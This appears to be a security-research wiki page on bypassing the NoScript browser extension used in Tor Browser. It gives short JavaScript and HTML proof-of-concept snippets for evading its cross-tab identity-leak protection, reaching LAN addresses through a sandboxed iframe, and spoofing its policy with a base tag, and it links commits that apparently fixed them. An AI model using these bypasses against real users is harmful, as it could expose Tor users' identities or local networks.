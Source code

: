 ```yaml
---
title: NoScript
---
```


[NoScript](https://noscript.net/) is a security browser extension installed by default on the Tor Browser that reduces the attack surface of visited websites such as by per site disabling JavaScript and blocking requests to the local area network.
It also has cross-site protections such as checking the URL for reflected XSS and asking before opening cross-site popups to avoid timing attacks and other leaks via the opener (Firefox only).

Disabling JS works by setting the following [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP):

```
noscript-marker; script-src 'none'; object-src 'none'; media-src 'none'; font-src 'none'; script-src-elem 'none'; script-src-attr 'none'; worker-src 'none'
```

So, in order to bypass it you need to find somewhere the CSP is not enforced like [this](https://issues.chromium.org/issues/40058593) or a PDF.

# Cross-tab Identity Leak Protection

Due to a flaw in cutting tab ties it did not think tabs where related when there was still a window reference.

```js
async function bypassFirefox(url) {
  let win = open("about:blank");
  await new Promise((resolve) => setTimeout(resolve, 100));
  win.location.reload();
  await new Promise((resolve) => setTimeout(resolve, 100));
  win.location = url;
  return win;
}
```

And later… [commit](https://github.com/hackademix/noscript/commit/c22eafc35bfcc379e9323cae67c924dfa1830684)

```js
let w = open();
w.eval('console.log("some attack")');
location = target;
```

And later… (Requires two user interactions)

```js
w1 = open();
w2 = w1.open();
w1.close();
w2.location = target;
```

Like [COOP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy) this does not affect timing attacks on the first navigation.

# LAN Protection

[Sandboxed content](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox) uses the origin of ‘null’ which bypassed the protection.

```js
let f = document.createElement("iframe");
f.srcdoc = '<img src="http://192.168.1.1/foo">';
f.sandbox = "allow-scripts";
document.body.appendChild(f);
```

This was also expanded to [top-level documents](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox).

# Policy spoofing

document.baseURI was used to determine the policy for about: and javascript: URLs this could be set to any origin using the html base tag. [commit](https://github.com/hackademix/noscript/commit/ee66b823210933ba80dd38acf122b4bab6bd7be1)

```html
<base href="https://www.example.com/" />
```
